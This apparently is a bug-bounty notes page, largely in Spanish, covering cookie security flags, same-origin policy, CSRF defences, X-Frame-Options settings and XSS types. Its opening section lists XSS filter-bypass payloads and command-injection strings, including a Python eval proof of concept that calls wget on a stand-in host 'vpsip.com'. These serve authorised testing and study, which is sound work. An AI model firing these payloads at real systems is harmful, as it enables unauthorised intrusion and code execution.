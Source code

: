 # BugBounty_tips

#Xss
%u003Csvg onload=alert(1)> \
%u3008svg onload=alert(2)> \
%uFF1Csvg onload=alert(3)> \
=<img%20src=x%20onerror=alert('Welcome,%20v
q=<g><script>alert%28document.domain%29<%2Fscript>   
<img src=x onerror=console.log("XSS")>   
‘);</script><script>alert(1)</script>  
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}

#Command Injection
url/cgi-bin/parameter=payload
payload 1 [PING]
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1 
payload 2 [Nslookup]
|nslookup -q=cname http://YOUR.burpcollaborator.net.&

POC Code: eval(compile(“””for x in range(1):\n import os\n os.popen(r’wget http://vpsip.com:8000').read()""",'','single'))

POC Code: eval%28compile%28%27for%20x%20in%20range%281%29%3A%0A%20import%20time%0A%20time.sleep%2820%29%27%2C%27a%27%2C%27single%27%29%29

  
cookie atributes
Las cookies son utilizadas a menudo en aplicaciones web para identificar a un usuario y su sesión
Creando
Set-Cookie: <nombre-cookie>=<valor-cookie>
Session
Expires
 
Securizar
Cookies Secure y HttpOnly
Secure es un parámetro para indicar que una cookie solo debería ser utilizada bajo un servidor seguro, tal como SSL
Previene la lectura y modificacion
Para prevenir ataques cross-site scripting (XSS (en-US)), las cookies HttpOnly son inaccesibles desde la API de Javascript Document.cookie; Solamente se envían al servidor. Por ejemplo, las cookies que persisten sesiones del lado del servidor no necesitan estar disponibles para JavaScript, por lo que debería establecerse el flag HttpOnly.

Alcance
Las directivas Domain y Path definen el alcance de la cookie: a qué URLs deberían enviarse las cookies.
Domain : especifica los hosts permitidos
Path   : espeficia directorios
Samesite
SameSite=Strict
Si una cookie same-site tiene este atributo, el navegador sólo enviará cookies si la solicitud se originó en el sitio web que estableció la cookie.y no hara en origenes distintos
Lax
Si el atributo se establece en Lax, las cookies same-site se retienen en (sub)peticiones cross-site, tales como llamadas para cargar imágenes o frames
Acceso desde JavaScript usando Document.cookie
También se pueden crear nuevas cookies via JavaScript usando la propiedad Document.cookie, y si el flag HttpOnly no está establecido

Tracking no legal  
HOW WORKS HTTPONLY
https://www.youtube.com/watch?v=d8liHExs5tc
https://www.youtube.com/watch?v=ZSUGfIy1ds8
https://www.youtube.com/watch?v=brNL_bvUCck


 
SameOriginPolicy Sop
https://developer.mozilla.org/es/docs/Web/Security/Same-origin_policy
Origen se refiere a si dos pagunas tienen el protocolo y el mismo puerto .
La política same-origin (mismo-origen) restringe cómo un documento o script cargado desde un origen puede interactuar con un recurso de otro origen. Es un mecanismo de seguridad crítico para aislar documentos potencialmente malicioso
Es impedir que dominios que no compartan el mismo host, puerto y protocolo sean capaces de acceder a la información de otro dominio

CSRF
Los endpoints GET no deben tener acciones de modificación, y si esto se necesita se debería requerir una petición POST. Además los endpoints POST no debería aceptar la intercambiabilidad de aceptar peticiones GET con parametros en query string
Un token CSRF debería ser incluido en cada elemento <form> mediante un input oculto. Este token debe ser único para cada usuario y almacenado (por ejemplo, en una cookie). De esta forma el servidor puede mirar si el valor requerido es enviado, y en cierto modo lo idea sería descartar la petición si el valor no concuerda con lo esperado.
Este método de protección recae en la imposibilidad de que un atacante pueda predecir este token autogenerado en cada inicio de sesión. Cabe aclarar que este token debería ser regenerado en cada inicio de sesión.
Al igual que con {{Glosario ("XSS")}}, el filtrado de entrada es importante.
Debería de existir siempre un requerimiento de confirmación para cualquier acción delicada,.
Las cookies empleadas en acciones delicadas deberían de tener una vida útil breve.

PREVENIR
https://www.youtube.com/watch?v=KvE3nifqELk
QUE LAS PETICIONES VENGAN DE SITIOS CONOCIDOS - ip - dominios 
POST - PETCIONES ASINCRONAS CON AJAX
HTTP_REFERER
mejor que lo anterior
HEAD
METER EL TOKEN EN HEAD EN UNA COOKIE
  
X-Frame-Options
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: DENY
La página no puede ser mostrada en un marco, independiente del sitio que esté intentándolo.
X-Frame-Options: SAMEORIGIN
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: ALLOW-FROM https://example.com/
La página sólo puede ser mostrada en un marco del origen especificado.Tenga en cuenta que en Firefox esto todavía sufre del mismo problema que SAMEORIGIN
  
SOLUCIÓN
Apache
Header always append X-Frame-Options SAMEORIGIN
Header set X-Frame-Options DENY
Header set X-Frame-Options "ALLOW-FROM https://example.com/"
Nginx
add_header X-Frame-Options SAMEORIGIN;
IIS
<system.webServer>
   <httpProtocol>
    <customHeaders>
      <add name="X-Frame-Options" value="SAMEORIGIN" />
    </customHeaders>
  </httpProtocol>
</system.webServer>
  
https://www.arsys.es/blog/instalar-fail2ban/

XSS
Cross Site Scripting (XSS) es un tipo de vulnerabilidad en 
las aplicaciones Web donde el atacante puede inyectar código 
JavaScript en el navegador de su víctima. 
 
Reflected: Cuando la aplicación refleja algún dato recibido 
por parámetro en un request HTTP sin sanitizar.
Stored: Similar al reflected pero los datos no sanitizados son 
guardados en la base de datos.
DOM Based: El payload XSS se ejecuta como resultado de la 
modificación del "entorno" DOM en el navegador de la víctima. 
(la vulnerabilidad existe en el código del lado del cliente en lugar del 
código del lado del servidor).
 
------------------------------------------------------------------------------
SOLUCION
/* Prevent XSS input */
$_GET   = filter_input_array(INPUT_GET, FILTER_SANITIZE_STRING);
$_POST  = filter_input_array(INPUT_POST, FILTER_SANITIZE_STRING);
/* I prefer not to use $_REQUEST...but for those who do: */
$_REQUEST = (array)$_POST + (array)$_GET + (array)$_REQUEST;
  
  
  
  

